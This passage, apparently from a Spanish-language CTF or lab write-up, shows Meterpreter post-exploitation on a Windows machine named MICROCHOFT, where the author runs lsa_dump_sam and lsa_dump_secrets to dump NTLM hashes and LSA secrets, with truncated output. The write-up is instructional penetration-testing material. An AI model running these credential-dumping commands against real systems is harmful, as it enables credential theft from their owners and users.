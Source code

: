 * Veamos si podemos obtener los **hashes NTLM** con el comando `lsa_dump_sam`:

```bash
meterpreter > lsa_dump_sam
[+] Running as SYSTEM
[*] Dumping SAM
Domain : MICROCHOFT
SysKey : 50eed915eff2e2089c21f2fbdc7a5bb4
Local SID : S-1-5-21-241196597-1966138111-2498293481

SAMKey : 7e4d05b4047b0193db824b57575c8e32

RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: f8d3f...

RID  : 000001f5 (501)
User : Guest

RID  : 000003e8 (1000)
User : Admin
  Hash NTLM: f8d3f...

RID  : 000003e9 (1001)
User : Lola
  Hash NTLM: f8d3f...
```
Me parece extraño que sea el mismo Hash para todos los usuarios.

* Veamos si podemos obtener alguna contraseña en texto claro con el comando `lsa_dump_secrets`:

```bash
meterpreter > lsa_dump_secrets
[+] Running as SYSTEM
[*] Dumping LSA secrets
Domain : MICROCHOFT
SysKey : 50eed...

Local name : MICROCHOFT ( S-1-5-21-.... )
Domain name : WORKGROUP

Policy subsystem is : 1.11
LSA Key(s) : 1, default {c1a9...}
  [00] {c1a9...} b20e29...

Secret  : DefaultPassword

Secret  : DPAPI_SYSTEM
cur/hex : 01 00 00 00 d9 47 4d 75 ...
...
...
...
```
